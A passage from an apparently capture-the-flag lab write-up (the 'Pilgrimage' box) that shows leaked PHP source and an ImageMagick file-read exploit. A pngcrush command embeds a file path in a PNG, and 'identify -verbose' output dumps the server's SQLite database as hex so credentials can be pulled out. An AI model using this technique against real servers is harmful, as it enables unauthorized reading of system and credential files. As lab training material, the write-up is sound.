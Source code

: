 ```
```
`emily` is a confirmed user, and the only user account created on this system. With the source code acquired from git-dumper, we know where the sqlite database is located. It is unlikely to be delivered well, but we might be able to find credentials in there. From register.php:
```php
<?php
session_start();
if(isset($_SESSION['user'])) {
  header("Location: /dashboard.php");
  exit(0);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['username'] && $_POST['password']) {
  $username = $_POST['username'];
  $password = $_POST['password'];

  $db = new PDO('sqlite:/var/db/pilgrimage');
<...SNIP...>
```
### Retrieving database file via ImageMagick
Preparing image:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ pngcrush -text a "profile" "/var/db/pilgrimage" sample.png
  Recompressing IDAT chunks in sample.png to pngout.png
   Total length of data found in critical chunks            =      2206
   Best pngcrush method        =   4 (ws 15 fm 0 zl 9 zs 1) =      1201
CPU time decode 0.001972, encode 0.007074, other 0.000923, total 0.011578 sec
```
output:
```
┌──(kali㉿kali)-[~/Documents/Pilgrimage]
└─$ identify -verbose 655a72a92d565.png 
Image: 655a72a92d565.png
  Format: PNG (Portable Network Graphics)
<...SNIP...>
   20480
53514c69746520666f726d61742033001000010100402020000000630000000500000000
000000000000000400000004000000000000000000000001000000000000000000000000
000000000000000000000000000000000000000000000063002e4b910d0ff800040eba00
0f650fcd0eba0f3800000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
<...SNIP...>
```
As predicted, the hex is massive. Fortunately, Cyberchef still manages to just barely get the job done. And within the file, we see what looks to be a pair of credentials:
